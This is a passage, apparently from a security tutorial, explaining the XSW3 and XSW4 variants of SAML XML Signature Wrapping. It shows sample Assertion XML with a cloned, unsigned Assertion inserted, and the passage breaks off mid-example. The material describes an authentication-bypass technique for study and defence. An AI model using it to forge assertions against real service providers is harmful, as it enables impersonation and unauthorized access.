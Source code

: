 ```
<Assertion xmlns="urn:oasis:names:tc:SAML:2.0:assertion" ID="_e55c9c3e8e9f6744e6e8d18d5f7fdd5b" Version="2.0" IssueInstant="2023-07-02T12:34:56Z">
<Issuer>https://identity-provider.com</Issuer>
<Subject>
<NameID Format="urn:oasis:names:tc:SAML:1.1:nameid-format:unspecified">user@example.com</NameID>
<SubjectConfirmation Method="urn:oasis:names:tc:SAML:2.0:cm:bearer">
<SubjectConfirmationData NotOnOrAfter="2023-07-02T12:44:56Z" Recipient="https://service-provider.com/acs"/>
</SubjectConfirmation>
</Subject>
<Conditions NotBefore="2023-07-02T12:34:56Z" NotOnOrAfter="2023-07-02T12:44:56Z">
<AudienceRestriction>
<Audience>https://service-provider.com</Audience>
</AudienceRestriction>
</Conditions>
<AuthnStatement AuthnInstant="2023-07-02T12:34:56Z" SessionIndex="_e55c9c3e8e9f6744e6e8d18d5f7fdd5b">
<AuthnContext>
<AuthnContextClassRef>urn:oasis:names:tc:SAML:2.0:ac:classes:Password</AuthnContextClassRef>
</AuthnContext>
</AuthnStatement>
</Assertion>
```
The XSW3 scenario happens in SAML Assertion messages. The attacker inserts a cloned and unsigned copy of Assertion in front of the existing Assertion. Thus, the SAML message is manipulated to contain multiple Assertions.

- XSW4 :// A cloned, unsigned copy of Assertion is inserted into the existing Assertion.

```
<Assertion xmlns="urn:oasis:names:tc:SAML:2.0:assertion" ID="_e55c9c3e8e9f6744e6e8d18d5f7fdd5a" Version="2.0" IssueInstant="2023-07-02T12:34:56Z">
<Issuer>https://identity-provider.com</Issuer>
<Subject>
<NameID Format="urn:oasis:names:tc:SAML:1.1:nameid-format:unspecified">user@example.com</NameID>
<SubjectConfirmation Method="urn:oasis:names:tc:SAML:2.0:cm:bearer">
<SubjectConfirmationData NotOnOrAfter="2023-07-02T12:44:56Z" Recipient="https://service-provider.com/acs"/>
</SubjectConfirmation>
</Subject>
<Conditions NotBefore="2023-07-02T12:34:56Z" NotOnOrAfter="2023-07-02T12:44:56Z">
<AudienceRestriction>
<Audience>https://service-provider.com</Audience>
</AudienceRestriction>
</Conditions>
<AuthnStatement AuthnInstant="2023-07-02T12:34:56Z" SessionIndex="_e55c9c3e8e9f6744e6e8d18d5f7fdd5a">
<AuthnContext>
<AuthnContextClassRef>urn:oasis:names:tc:SAML:2.0:ac:classes:Password</AuthnContextClassRef>
</AuthnContext>
</AuthnStatement>
<!-- Cloned, unsigned copy of Assertion -->
<Assertion xmlns="urn:oasis:names:tc:SAML:2.0:assertion" ID="_e55c9c3e8e9f6744e6e8d18d5f7fdd5b" Version="2.0" IssueInstant="2023-07-02T12:34:56Z">
<Issuer>https://identity-provider.com</Issuer>
<Subject>
<NameID Format="urn:oasis:names:tc:SAML:1.1:nameid-format:unspecified">user@example.com</NameID>
<SubjectConfirmation Method="urn:oasis:names:tc:SAML:2.0:cm:bearer">
<SubjectConfirmationData NotOnOrAfter="2023-07-02T12:44:56Z" Recipient="https://service-provider.com/acs"/>
</SubjectConfirmation>
</Subject>
<Conditions NotBefore="2023-07-02T12:34:56Z" NotOnOrAfter="2023-07-02T12:44:56Z">
<AudienceRestriction>
```